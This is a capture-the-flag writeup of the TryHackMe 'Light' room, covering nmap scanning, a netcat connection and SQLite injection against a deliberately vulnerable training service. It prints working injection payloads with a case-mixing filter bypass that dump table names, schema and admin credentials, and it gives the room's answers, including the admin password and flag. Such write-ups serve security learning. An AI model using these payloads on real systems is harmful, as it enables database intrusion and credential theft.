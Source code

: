 ## Light - TryHackMe Writeup

[Room Link](https://tryhackme.com/room/lightroom)

<i>Welcome!</i>

<i>I am working on a database application called Light! Would you like to try it out?</i>
<i>If so, the application is running on port 1337. You can connect to it using nc MACHINE_IP 1337</i>
<i>You can use the username smokey in order to get started.</i>

<i>**Note: Please allow the service 2 - 3 minutes to fully start before connecting to it**<i>.

---

## 📌 General Information

**Room Difficulty**: Easy  <br>

**Room Type**: SQL Injection <br>

**Tools Used**: Nmap<br>

**Author**: <br>

[<img align='center' src="https://github.com/mauzware/mauzware/blob/main/LOGO%20NEW.png"/>](https://github.com/mauzware)

[TryHackMe Profile](https://tryhackme.com/p/mauzinho) <br>
[GitHub Profile](https://github.com/mauzware)

---

## 🔍 Enumeration

IP: 10.10.237.33<br>
Username: `smokey`<br>
Password: `vYQ5ngPpw8AdUmL` ; you get this password when you get netcat connection<br>

- Nmap Scan

  ```
  nmap -A -p- 10.10.237.33
  ```

- Found:

22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)<br>
1337/tcp open  waste?

## ⚙️ Exploitation 

  ```
  nc 10.10.237.33 1337
  ```

After connecting, type smokey to get his password `vYQ5ngPpw8AdUmL`

- Now we start with the payloads:
  First we check if SQLI is actually possible.

  ```
  smokey'
  smokey' UNION SELECT 1 -- -
  smokey' UNION SELECT 1 #
  ```

- I got various different responses with different queries and I concluded that filtering is present. Now, it took me a bit to find the specific filter bypass since I wanted to find which DBMS is used.<br>
  This is what I used:

  ```
  smokey' UnIon SeLect @@version '
  smokey' UnIon SeLect version() '
  smokey' UnIon SeLect sqlite_version() '
  ```

  Only got positive response with `smokey' UnIon SeLect sqlite_version() '` so its a SQLite database!

  Now extracting the values from DBMS:

- This one extracts table names, it gave me `admintable`:

  ```
  smokey' UnIon SeLect tbl_name FROM sqlite_master WHERE type='table
  ```

- This one extracts schema of table in SQLite:

  ```
  smokey' UnIon SeLect sql FROM sqlite_master WHERE name = 'admintable
  ```

- Now for final push, lets get both usernames and passwords from admintable:

  ```
  smokey' UnIon SeLect group_concat(username || ":" || password) FROM admintable '
  ```

**Result of last query**: `Password:TryHackMeAdmin:mamZtAuMlrsEy5bp6q17,flag:THM{SQLit3_InJ3cTion_is_SimplE_nO?}`

- **Theres various different resources/documentation to help you out with this challenge, I prefer PayloadsAllTheThings**.

[PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)

## 🏁 Flags

- **What is the admin username?** : `TryHackMeAdmin`
- **What is the password to the username mentioned in question 1?** : `mamZtAuMlrsEy5bp6q17`
- **What is the flag?** : `THM{SQLit3_InJ3cTion_is_SimplE_nO?}`

---

## 💬 Notes & Reflections

- What was challenging in this room for me?<br>
  `It took me a bit to realise that netcat connection gives you immediate access to the database...`
  
- What did I learn?<br>
  `Just kept sharpening SQLI skills`
  
- I would recommend this room or any type of CTF challenge to every Cyber Security enthusiast since it will sharpen your skills better than any book/tutorial/course or walkthrough rooms on many different platforms!
  
- Thank you for reading! Enjoy, Have Fun and Happy Hacking! 🤟

---
